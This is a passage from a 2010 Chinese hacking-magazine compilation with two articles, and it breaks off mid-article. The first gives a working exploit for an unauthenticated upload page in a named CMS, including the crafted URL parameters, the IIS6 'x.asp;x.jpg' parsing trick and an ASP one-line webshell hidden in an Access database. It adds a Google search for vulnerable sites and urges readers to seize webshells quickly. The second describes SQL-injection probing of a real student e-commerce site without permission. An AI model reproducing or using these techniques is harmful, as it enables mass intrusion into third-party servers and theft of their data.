# 黑客X档案合订本2010年（上）第二部分

---

# 一个人的战争

介绍的方法操作了一遍，果然可以得到 webshell。今天我就把这个漏洞详细地介绍给各位叉子，让大家也可以利用这个漏洞抓 webshell。

“天天供求信息网站管理系统是由电脑家园 ip126.com 开发的一套信息发布管理系统，具有安全、稳定、强大、易用的特点，通用性很强，参数后台可以自定义，不懂网页制作的人也可轻松建站，适用于各地建立供求信息网、二手交易网、网上博览会、商贸通、企业录等网站。”这是官方对天天供求信息网站管理系统的介绍。目前其最新的版本是 V4.3，动画中介绍的漏洞对于最新版也有效，可以说是通杀这套管理系统的。我从网上下载了这套系统 V4.3 版的源码，在虚拟机中 Windows 2003 系统的 IIS 环境下把网站架设了起来，访问地址为 http://127.0.0.1/，打开后的网站首页如图1所示。

我们来看如何利用漏洞得到 webshell。漏洞文件为 link\admin 目录下的 upload.asp，由于没有做权限验证，我们直接在浏览器中访问“http://127.0.0.1/link/admin/upload.asp”，就来到了上传文件的地方，如图2。先尝试上传一个真正的图片文件 123.jpg，却出现了“出现错误，请重新上传！”的错误提示信息，上传不成功。动画中说要在 upload.asp 后面加上参数才可以上传，加上参数后的地址为“http://127.0.0.1/link/admin/upload.asp?fuptype=adv&fupname=1.jpg&frmname=ADSrc”，再次上传 123.jpg，这回上传成功了，上传后的文件名为 1.jpg.jpg，还给出了上传文件在服务器上的绝对路径，如图3。

原来我们可以通过“fupname”指定文件上传到服务器后的文件名，只不过在你指定的文件名后面又添加了个 .jpg 的后缀。只是添加了一个 .jpg 的后缀，看到这个，聪明的叉子想到了什么？是不是想到了类似“x.asp;x.jpg”的文件，IIS6.0 会把它按 asp 文件来解析的漏洞呢。





如果我们把文件名指定为“x.asp;x”，那么上传后加上 .jpg 不正好是“x.asp;x.jpg”吗？再次打开“http://127.0.0.1/link/admin/upload.asp?fuptype=adv&fupname=x.asp;x&frmname=ADSrc”，上传名为“x.asp;x”的一句话木马，但在上传时却提示了“涉嫌上传木马病毒！上传失败。”，看来系统对上传文件进行了检查，如图4。





动画中给出的解决办法是上传数据库木马，并且说他上传数据库木马是经过特殊处理的，但动画中却没有提及制作“特殊处理的”数据库木马的过程，也没有提供所使用的数据库木马。那位好朋友就是因为不知道怎样制作动画作者所说的“经过特殊处理的”数据库木马才问我的，看来只有自己动手了。先来看一下普通的数据库木马行不行，使用 Microsoft Office Access 2003 新建一个数据库文件，名字为 db1.mdb，在里面新建一个表，在表中插入一句话木马，如图5。

```asp
<%eval request("x")%>
```



再次打开 http://127.0.0.1/link/admin/upload.asp?fuptype=adv&fupname=x.asp;x&frmname=ADSrc，把我们制作完成的数据库木马文件 db1.mdb 改名为 db1.jpg（必须改名为 .jpg 后缀，否则上传后的文件名类似为 x.asp;x.mdb），这次上传成功了，提示“文件上传成功!上传文件的物理路径为：C:\www\link\ads\pic\x.asp;x.jpg”，如图6。





图7

一句话木马客户端来连接“http://127.0.0.1/link/ads/pic/x.asp;x.jpg”，成功地得到了 webshell，看来使用普通的数据库木马就完全可以得到 webshell 了，如图7。



图8

我们使用 Google 搜索“inurl:onews.asp?catid=”就可以找到使用天天供求信息网站管理系统的许多网站，搜索结果显示有 46700 条结果呢。现在支持 asp 的服务器几乎也全是 Windows 2003 系统，相信又可以抓不少 webshell 了，如图8。大家快快行动吧，晚了可就让别人抢了啊。

> （文章中涉及到的天天供求信息网站管理系统 V4.3 的源码已经收录在了光盘中）

## 菜鸟手记 检测“放心”的交易网

fjhh@北洋舰队

很偶然地发现了学校的一个关于电子商务创业团队的招聘通知，我非常看好他们的创业构想。既然是做电子商务的，那么网站的安全性一定是相当高了，赶紧记下他们的网址，跑回寝室开工。

在浏览器中打开网站首页后，感觉页面非常简洁，只有两个版块链接，分别是“今朝”和“商朝”，网站的标题倒是挺唬人的——“人们最放心的交易网”，如图1。那好，今天我就来看看是否真的能让人放心。



图2



图1

先点击进入“今朝”这个版块，发现界面挺粗糙的，估计是修改的 CMS 系统，但在美工上整合得还不是很完美。随手点开一个新闻，提示需要注册用户登录，没办法，只好先填写了一大堆资料，注册了一个用户。登录后我们来测试新闻显示页面，在网址后面添加“and 1=1”，提交后显示正常，添加“and 1=2”提交后出错，果然存在注入漏洞，如图2。



图3

看来这个网站做得也不怎么安全嘛，注入漏洞一大把。兴冲冲地把注入地址丢给啊D进行检测，可啊D却提示无法注入，如图3。我愣了好大一会才明白，这需要用户登录才行。本想换手工检测的，但这个网站又不能使用 union 查询，只能使用“`And (select Top 1 Asc(mid(username,N,1)) From Admin)>0`”一个个地进行猜解，这样也太麻烦了，那该如何利用工具进行猜解呢？突然想起了啊D自带的浏览功能，于是就在啊D里打开了网站，使用刚才注册的用户名成功登录进去，如图4。现在就可以进行猜解了，可是只跑出了一个 User 表。从猜解出的信息来看，发现这个表是用来存放注册用户的，难道不存在管理员表？应该不可能，估计是管理员表名取得太另类了，比如加了版权前缀，就像刚刚的“Dv_Admin”。







